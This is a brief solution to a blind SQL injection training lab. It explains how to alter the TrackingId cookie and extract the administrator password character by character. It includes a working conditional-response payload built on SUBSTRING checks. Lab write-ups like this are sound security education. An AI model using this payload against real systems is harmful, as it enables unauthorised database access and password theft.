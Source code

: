 # Lab 9: Blind SQL Injection with Conditional Responses

* **Solution**: Modify the TrackingId cookie to test conditions (e.g., username exists), then brute-force the admin password character-by-character using substring checks, grepping for “Welcome back.”
* **Final Payloads**:
  * TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a (repeat for each position and character a-z, 0-9)